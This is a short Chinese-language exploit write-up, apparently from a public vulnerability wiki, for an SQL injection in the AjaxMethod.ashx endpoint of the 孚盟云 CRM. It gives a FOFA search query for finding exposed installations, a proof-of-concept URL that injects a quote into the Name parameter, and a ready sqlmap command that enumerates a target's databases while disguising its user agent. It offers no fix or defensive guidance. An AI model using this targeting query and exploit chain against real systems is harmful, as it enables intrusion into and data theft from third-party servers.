



# 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## FOFA

```
title="孚盟云 "
```

## 漏洞复现

登录页面





验证POC


```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```




使用Sqlmap


```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```


